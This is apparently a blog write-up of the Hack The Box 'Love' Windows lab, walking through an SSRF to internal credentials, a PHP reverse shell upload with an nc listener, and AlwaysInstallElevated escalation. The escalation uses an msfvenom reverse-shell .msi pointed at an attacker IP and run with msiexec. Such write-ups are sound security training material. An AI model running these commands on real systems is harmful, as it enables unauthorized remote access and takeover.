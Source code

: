 ```yaml
---
layout: single
title: Love - Hack The Box
excerpt: "Love is a very easy Windows machine that can be easily solved if some basic concepts are clear. It contains a SSRF attack, which is not very common and this machine is a very good example of how it works. Enumeration is also very important here, for both foothold and privilege escalation, this last one taking advantage of the AlwaysInstallElevated feature being turned on."
date: 2021-08-07
classes: wide
header:
  teaser: /assets/images/htb-writeup-love/love_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - easy
  - infosec
tags:  
  - Windows
  - SSRF
  - WinPEAS
  - AlwaysInstallElevated
---
```


![](/assets/images/htb-writeup-love/love_logo.png)

Love is a very easy Windows machine that can be easily solved if some basic concepts are clear. It contains a SSRF attack, which is not very common and this machine is a very good example of how it works. Enumeration is also very important here, for both foothold and privilege escalation, this last one taking advantage of the AlwaysInstallElevated feature being turned on.

## Nmap

We can scan the machine with `nmap -sV -T5 -p- 10.10.10.239 -oA Love`

![](/assets/images/htb-writeup-love/love2.png)

## Web servers

The first web server, in `http://love.htb`, has a login form into a “voting system”, but there is nothing to do here, at least now.

![](/assets/images/htb-writeup-love/love3.png)

If we look carefully at the nmap scan, we discover a new host, `staging.love.htb`.

![](/assets/images/htb-writeup-love/love4.png)

We can add this host to the hosts file and try to connect to it.

![](/assets/images/htb-writeup-love/love5.png)

The site is a kind of File Scanner, so we can find misconfigurations here to access to the machine.

![](/assets/images/htb-writeup-love/love6.png)

## SSRF attack

After some research, I find out SSRF attacks, which consist on making HTTP requests on the server that is hosting the application, so we can gain access to the machine taking advantage of the fact that the machine can make requests to itself.

![](/assets/images/htb-writeup-love/love7.png)

Then, if we try to access to the port 5000, we will see that we can't as we don't have permissions.

![](/assets/images/htb-writeup-love/love8.png)

Knowing this, we can send a request to localhost:5000 through the machine itself, which will send back to us the corresponding Password Dashboard which was available there, as the machine has permissions to see what is there.

![](/assets/images/htb-writeup-love/love9.png)

There we find some credentials, `admin@LoveIsInTheAir!!!!`.

![](/assets/images/htb-writeup-love/love10.png)

If we go back to the main web, we will see that this credentials doesn’t work here, not that they are wrong, but the web doesn’t answer.

![](/assets/images/htb-writeup-love/love11.png)

To solve this, we can launch a directory enumeration attack to discover hidden directories in the website, with `gobuster dir -u http://love htb/ -w /usr/share/wordlists/dirbuster/big.txt`. We discover an `/admin` directory, which we can access.

![](/assets/images/htb-writeup-love/love12.png)

In that directory, a panel similar to the first one is available, but in this case the credentials work and we can log in.

![](/assets/images/htb-writeup-love/love13.png)

There we find an admin dashboard that we can easily exploit, as we can upload files adding users to the voting system.

![](/assets/images/htb-writeup-love/love14.png)

## Reverse shell

To get a shell in the system, we will upload a PHP Reverse Shell that will give us RCE in the machine. The file should be a photo, but the web accepts .php files, so we won’t mess up with that and we’ll upload directly a reverse shell written in php.

![](/assets/images/htb-writeup-love/love15.png)

This reverse shell can be obtained in the [pentestmonkey github](https://github.com/pentestmonkey/php-reverse-shell). We have to modify it with our own ip and the port that we will be listening to at the time of uploading the shell.

![](/assets/images/htb-writeup-love/love17.png)

We easily upload the file as the photo of our new voter.

![](/assets/images/htb-writeup-love/love16.png)

And we proceed to listen in that port with `nc -nvlp 1234`.

![](/assets/images/htb-writeup-love/love18.png)

When the shell reaches the server, we’ll have access as the user “xampp”. First part of the machine completed.

![](/assets/images/htb-writeup-love/love19.png)

## System enumeration

To detect vulnerabilities in this machine that will lead us to a privileged user, we will be using WinPEAS, a script to enumerate possible vectors in our victim system.

![](/assets/images/htb-writeup-love/love20.png)

After uploading it as we did with the PHP Reverse Shell, what we find and we can check with `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstalledElevated` is that `AlwaysInstalledElevated` is enabled in this machine, which can be easily exploited as we will see.

![](/assets/images/htb-writeup-love/love22.png)

## AlwaysInstallElevated exploitation

In our own system we can prepare a malicious .msi file which we will transfer to the victim machine and then install as admin. To generate this file, we'll be using msfvenom with the command `msfvenom –platform windows –arch x64 –payload windows /x64/shell_reverse_tcp LHOST=10.10.14.126 LPORT=1234 –encoder x64/xor – iteration 9 –format msi –out exp.msi`. In LHOST we use our IP, and in LPORT the port to listen to.

![](/assets/images/htb-writeup-love/love23.png)

After uploading the file as we did before, we can execute it with `msiexec /I “C:\xampp\htdocs\omrs\images\exp.msi”`.

![](/assets/images/htb-writeup-love/love24.png)

Then we will receive a root shell in the nc listener.

![](/assets/images/htb-writeup-love/love25.png)

Now we can get the last flag, which is, as always, in the Desktop of the Administrator user.

![](/assets/images/htb-writeup-love/love27.png)



